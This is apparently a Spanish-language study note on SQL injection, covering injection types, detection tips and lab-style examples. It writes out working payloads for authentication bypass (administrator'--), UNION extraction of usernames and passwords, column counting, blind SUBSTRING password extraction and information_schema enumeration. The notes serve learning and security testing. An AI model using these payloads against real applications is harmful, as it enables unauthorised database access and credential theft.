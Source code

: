 ```yaml
---
title: sqli
author: naibu3
---
```


#web 

**SQL Injection** (**SQLI**) es una técnica de ataque utilizada para explotar vulnerabilidades en aplicaciones web que **no validan adecuadamente** la entrada del usuario en la consulta SQL que se envía a la base de datos. Los atacantes pueden utilizar esta técnica para ejecutar consultas SQL maliciosas y obtener información confidencial, como nombres de usuario, contraseñas y otra información almacenada en la base de datos.

Las inyecciones SQL se producen cuando los atacantes insertan código SQL malicioso en los campos de entrada de una aplicación web. Si la aplicación no valida adecuadamente la entrada del usuario, la consulta SQL maliciosa se ejecutará en la base de datos, lo que permitirá al atacante obtener información confidencial o incluso controlar la base de datos.

Algunos ejemplos serían:

```sql
' or 1=1--
*
```

## Conceptos previos

Existen varios **tipos de bases de datos**:

- **Bases de datos relacionales**: Las inyecciones SQL son más comunes en bases de datos relacionales como MySQL, SQL Server, Oracle, PostgreSQL, entre otros. En estas bases de datos, se utilizan consultas SQL para acceder a los datos y realizar operaciones en la base de datos.
- **Bases de datos NoSQL**: Aunque las inyecciones SQL son menos comunes en bases de datos NoSQL, todavía es posible realizar este tipo de ataque. Las bases de datos NoSQL, como MongoDB o Cassandra, no utilizan el lenguaje SQL, sino un modelo de datos diferente. Sin embargo, es posible realizar inyecciones de comandos en las consultas que se realizan en estas bases de datos. Esto lo veremos unas clases más adelante.
- **Bases de datos de grafos**: Las bases de datos de grafos, como Neo4j, también pueden ser vulnerables a inyecciones SQL. En estas bases de datos, se utilizan consultas para acceder a los nodos y relaciones que se han almacenado en la base de datos.
- **Bases de datos de objetos**: Las bases de datos de objetos, como db4o, también pueden ser vulnerables a inyecciones SQL. En estas bases de datos, se utilizan consultas para acceder a los objetos que se han almacenado en la base de datos.

## Tipos de inyecciones

- **Inyección SQL basada en errores**: Este tipo de inyección SQL aprovecha **errores en el código SQL** para obtener información. Por ejemplo, si una consulta devuelve un error con un mensaje específico, se puede utilizar ese mensaje para obtener información adicional del sistema.
- **Inyección SQL basada en uniones**: Este tipo de inyección SQL utiliza la cláusula “**UNION**” para combinar dos o más consultas en una sola. Por ejemplo, si se utiliza una consulta que devuelve información sobre los usuarios y se agrega una cláusula “**UNION**” con otra consulta que devuelve información sobre los permisos, se puede obtener información adicional sobre los permisos de los usuarios.
- **Inyección SQL basada en tiempo**: Este tipo de inyección SQL utiliza una consulta que **tarda mucho tiempo en ejecutarse** para obtener información. Por ejemplo, si se utiliza una consulta que realiza una búsqueda en una tabla y se añade un retardo en la consulta, se puede utilizar ese retardo para obtener información adicional
- **Inyección SQL basada en booleanos**: Este tipo de inyección SQL utiliza consultas con **expresiones booleanas** para obtener información adicional. Por ejemplo, se puede utilizar una consulta con una expresión booleana para determinar si un usuario existe en una base de datos.
- **Inyección SQL basada en stacked queries**: Este tipo de inyección SQL aprovecha la posibilidad de **ejecutar múltiples consultas** en una sola sentencia para obtener información adicional. Por ejemplo, se puede utilizar una consulta que inserta un registro en una tabla y luego agregar una consulta adicional que devuelve información sobre la tabla.

# Detección

Para detectar una inyección SQL, cuando parezca que se está haciendo una petición a una BD, podemos intentar:

- Submitting the single quote character `'` and looking for errors or other anomalies.
- Submitting some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and looking for systematic differences in the resulting application responses.
- Submitting Boolean conditions such as `OR 1=1` and `OR 1=2`, and looking for differences in the application's responses.
- Submitting payloads designed to trigger time delays when executed within a SQL query, and looking for differences in the time taken to respond.
- Submitting [OAST](https://portswigger.net/burp/application-security-testing/oast) payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitoring for any resulting interactions.


# Error based SQLI

Si tenemos una *query* como la siguiente:

```mysql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Podemos tratar de hacer una inyección como la siguiente `' OR 1=1--`, de forma que la query quedaría:

```mysql
SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1
```

Así se mostrarán todos los productos de la BD.

Otro ejemplo sería un login como el siguiente:

```mysql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Si tratamos de poner **username** con el valor `administrator'--`, la query quedaría:

```mysql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```

Viendo el output de las querys podemos determinar distintos datos sobre la BD.

## Detectar número de columnas

Mediante errores podemos ver el número de columnas que se están solicitando con la query. Una forma sería utilizando **ORDER BY**. Si añadimos `ORDER BY 3--` y el número de columnas es inferior a 3, nos devolverá un error.

# UNION based SQLI

Si de igual forma, utilizamos el operador **UNION**, podemos hacer una subconsulta que se añada a la inicial. Esta segunda consulta debe devolver u número de columnas igual, lo cuál puede server también para determinar el número de columnas de una tabla.

```mysql
SELECT name, description FROM products WHERE category = 'Gifts'
```

Con una inyección como `' UNION SELECT username, password FROM users--` la query quedaría:

```mysql
SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users--'
```

En ocasiones, la consulta tramitada con UNION no llega a mostrarse, por ello debemos jugar con **group_concat()**, que concatena la consulta principal con la del UNION

## Detectar número de columnas

Con UNION también podemos detectar el número de columnas, mediante inyecciones como:

```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

# Blind SQLI

## Con respuestas condicionales

Por ejemplo, para esta query con un **TrackingId**:

```mysql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Podemos probar a poner la siguiente inyección `<TI> AND 1=2`:

```mysql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4 AND 1=2'
```

Mediente otras técnicas descubrimos que existe la tabla `Users` con las columnas `Username` y `Password`, y un usuario `Administrator`. De esta forma, podemos utilizar una inyección como `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm` para  tratar de sacar la contraseña (si el primer carácter es menor que `m` devolverá un error).

```mysql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4 xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'
```

Este proceso lo podemos automatizar haciendo uso de la librería [[pwntools]].

# MySQL

Para obtener información sobre la propia base de datos, podemos utilizar la tabla **information_schema**.

- Nombre de las bases de datos:
```sql
SELECT schema_name FROM information_schema.schemata
```

- Tablas de una base de datos:
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=[database]
```

- Nombres de las columnas:
```sql
SELECT column_name FROM information_schema.columns WHERE table_name=[table name]
```